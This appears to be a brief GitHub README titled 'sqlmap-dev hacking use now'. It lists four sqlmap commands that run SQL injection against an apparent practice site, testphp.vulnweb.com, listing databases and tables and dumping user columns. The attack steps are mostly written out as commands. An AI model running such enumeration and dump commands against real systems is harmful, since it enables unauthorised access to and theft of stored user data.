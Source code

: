 
## Installation:




# sqlmap-dev hacking use now:

``` python sqlmap.py -u http://testphp.vulnweb.com/artists.php\?artist\=1 --dbs ```

``` python sqlmap.py -u http://testphp.vulnweb.com/artists.php\?artist\=1 -D acuart --tables ```

``` python sqlmap.py -u http://testphp.vulnweb.com/artists.php\?artist\=1 -D acuart -T users --columns ```

``` python sqlmap.py -u http://testphp.vulnweb.com/artists.php\?artist\=1 -D acuart -T users -C uname --dump-all ```


## profile by developer:
<img src="rejaul.jpg" width="600"/>
